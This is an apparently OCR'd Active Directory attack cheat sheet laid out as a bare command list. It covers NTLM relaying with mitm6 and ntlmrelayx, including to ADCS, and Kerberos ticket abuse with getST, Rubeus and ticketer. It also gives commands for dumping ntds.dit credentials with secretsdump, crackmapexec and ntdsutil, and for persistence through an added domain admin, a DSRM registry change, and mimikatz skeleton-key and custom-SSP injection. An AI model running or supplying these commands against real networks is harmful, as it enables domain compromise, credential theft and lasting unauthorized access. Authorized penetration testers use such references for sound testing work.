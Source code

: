 ### mitm6 -i eth0 -d <domain>

- ntlmrelayx.py -6 -wh <attacker_ip> -l /tmp -socks -debug
- ntlmrelayx.py -6 -wh <attacker_ip> -t smb://<target> -l /tmp -socks -debug
- ntlmrelayx.py -t ldaps://<dc_ip> -wh <attacker_ip> --delegate-access

	- getST.py -spn cifs/<target> <domain>/<netbios_name>\$ -impersonate <user>

### adcs

- ntlmrelayx.py -t http://<dc_ip>/certsrv/certfnsh.asp -debug -smb2support --adcs --template DomainController

	- Rubeus.exe asktgt /user:<user> /certificate:<base64-certificate> /ptt

## Domain admin

### dump ntds.dit

- crackmapexec smb 127.0.0.1 -u <user> -p <password> -d <domain> --ntds
- secretsdump.py '<domain>/<user>:<pass>'@<ip>
- ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q

	- secretsdump.py  -ntds ntds_file.dit -system SYSTEM_FILE -hashes lmhash:nthash LOCAL -outputfile ntlm-extract

- windows/gather/credentials/domain_hashdump

## Persistance

### net group "domain admins" myuser /add /domain

### Golden ticket

- ticketer.py -nthash <nthash> -domain-sid <domain_sid> -domain <domain> <user>

### Silver Ticket

### DSRM

- PowerShell New-ItemProperty “HKLM:\System\CurrentControlSet\Control\Lsa\” -Name “DsrmAdminLogonBehavior” -Value 2 -PropertyType DWORD

### Skeleton Key

- mimikatz "privilege::debug" "misc::skeleton" "exit"

### Custom SSP

- mimikatz "privilege::debug" "misc::memssp" "exit"

	- C:\Windows\System32\kiwissp.log
